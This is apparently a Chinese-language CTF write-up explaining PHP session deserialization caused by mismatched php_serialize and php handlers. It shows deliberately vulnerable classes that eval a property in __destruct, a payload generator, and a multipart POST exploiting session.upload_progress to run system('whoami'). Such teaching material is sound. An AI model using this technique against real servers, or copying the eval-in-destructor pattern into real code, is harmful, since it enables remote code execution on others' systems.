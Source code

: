 首先, 从一道题看起. 

```php
# deserialize.php
<?php
ini_set('session.serialize_handler', 'php');
session_start();
class Infosec{
    public $bacon;
    function __construct(){
        $this->bacon = 'phpinfo();';
    }
    function __destruct(){
        eval($this->bacon);
    }
}
if(isset($_GET['phpinfo'])){
    $m = new Infosec();
}
else{
    highlight_string(file_get_contents('deserialize.php'));
}
?>
```

想要理解 php-session 的反序列化漏洞, 需要先理解一下三个 **php session handler** 的概念.

| 处理器        | 对应的存储格式                      |
| ------------- | ----------------------------------- |
| php           | `username|s:5:"bacon";`             |
| php_binary    | `<0x08>username:5:"bacon";`         |
| php_serialize | `a:1:{s:8:"username";s:5:"bacon";}` |

当写入 session 的handler为 **php_serialize**, 但读取 session 的handler为 **php** 时, 可能导致反序列化漏洞. 

举个例子, 

```php
#phpSerializeTest.php
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
$_SESSION["username"]=$_GET["u"];
?>
```

```php
#phpTest.php
<?php
ini_set('session.serialize_handler', 'php');
session_start();
class session {
    var $var; 
    function __destruct() {
         eval($this->var);
    }
}
?>
```

session 在哪里反序列化?  **session_start()**

`session_start()` 会在第一次请求`phpSerializeTest.php` 时生成 session , 当已经带着此 session_id 请求`phpTest.php` 时, `session_start()` 会反序列化 session 并填充到全局变量 `$_SESSION` . 

附上`session_start()` 的manual

![image-20211028135408917](session-deserialize.assets/image-20211028135408917.png)  



在理解了 php 三个 session handler 对应的格式 和 session 如何、为何会被反序列化之后, 可以开始尝试理解 php-session 反序列化漏洞的原理了.

先在`phpSerializeTest.php `生成 session : 

![image-20211028120958057](session-deserialize.assets/image-20211028120958057.png)  

攻击者可控的是 serialize 字符串 username 内的 bacon . 

使用 php_serialize 生成的 session , 使用 php_serialize handler 处理自然没有什么问题.

```json
a:1:{s:8:"username";s:5:"bacon";}
```

但若使用 php handler 处理 php_serialize 生成的session, 则可能存在反序列化漏洞. 

由于在 php handler 中,使用`|` 作为键名和值的分隔符, 如 `username|s:5:"bacon";`

在 php_serialize handler 中, 键值中的`|` 只是值的一部分, 

导致在使用 php_serialize handler 生成 session 时, 插入`|` 后交由 php handler 处理时会破坏原先序列化键值.

例如: 

当用户输入`|O:7:"session":1:{s:3:"var";s:10:"phpinfo();";}` 时, session文件随之更新

![image-20211028134002892](session-deserialize.assets/image-20211028134002892.png)  

而在使用 php handler 处理这个 session 时, 会将 `|` 前的`a:1:{s:8:"username";s:47:"` 作为键名, 

从而反序列化的键值从 `s:5:"bacon";` 变成了`O:7:"session":1:{s:3:"var";s:10:"phpinfo();";}";}`

```json
a:1:{s:8:"username";s:47:"|O:7:"session":1:{s:3:"var";s:10:"phpinfo();";}";}
```

同时, php 在 `unserialize()` 的时候有一个特性, 找到满足反序列化的字符串后即进行反序列化.

若反序列化的字符串末新增任何污染也不会影响反序列化的结果, 例如:

```php
<?php
class Infosec{
    public $bacon;
    function __destruct(){
        echo($this->bacon);
    }
}
unserialize('O:7:"Infosec":1:{s:5:"bacon";s:2:"hi";}SOME CRAAAAAAAAAAAAAAAAP')
?>
```

并不会导致反序列化失败:  

![image-20211028142450907](session-deserialize.assets/image-20211028142450907.png)  

因此, php handler 处理这段 session 时, 最终反序列化的字符串为:  

`O:7:"session":1:{s:3:"var";s:10:"phpinfo();";}` 

由此存在反序列化漏洞. 



在理解 php-session 反序列化漏洞的原理之后, 再回去看那道题目.

先看眼 phpinfo , 发现开启了**session.upload_progress**: 

![image-20211028145413155](session-deserialize.assets/image-20211028145413155.png)    

**session upload progress** 是 php 支持通过 http post 请求向 session 添加文件上传进度的一个特性. 

通过拼接 **session.upload_progress.prefix** , 如上文的 **upload_progress_** 

和 **session.upload_progress.name** ,即 post 请求中名为上文 **PHP_SESSION_UPLOAD_PROGRESS** 的值

为 session 的一个键名, 用来记录上传的具体进度. 详细的参考 https://www.php.net/manual/zh/session.upload-progress.php

![image-20211028150656446](session-deserialize.assets/image-20211028150656446.png)  

并且从 phpinfo 里也可以看出, php session handler 的 Master Value 是 **php_serialize** , 而`deserialize.php`  的 Local Value 是 **php**

因此利用 session upload progress 上传的 session 是由 **php_serialize handler** 处理的, 
而当`deserialize.php` 的 `session_start() ` 执行时, 是由 **php handler** 处理的. 因此存在反序列化漏洞. 

本地指定php_serialize 生成payload: 

```php
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
class Infosec{
    public $bacon="system('whoami');";
}
$m = new Infosec();
echo serialize($m)
# O:7:"Infosec":1:{s:5:"bacon";s:17:"system('whoami');";}
?>
```

  构造post form-data 的请求:  

```http
POST /deserialize.php HTTP/1.1
Host: 10.10.8.34
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypHPYmQrl3Zf60dqB
Cookie: PHPSESSID=kag8m9qg1o3dpcdbgk8jvf4puj;
Content-Length: 358

------WebKitFormBoundarypHPYmQrl3Zf60dqB
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

|O:7:"Infosec":1:{s:5:"bacon";s:17:"system('whoami');";}
------WebKitFormBoundarypHPYmQrl3Zf60dqB
Content-Disposition: form-data; name="file"; filename="1"
Content-Type: application/octet-stream

1
------WebKitFormBoundarypHPYmQrl3Zf60dqB--
```

成功rce:  

![image-20211028155204977](session-deserialize.assets/image-20211028155204977.png)  



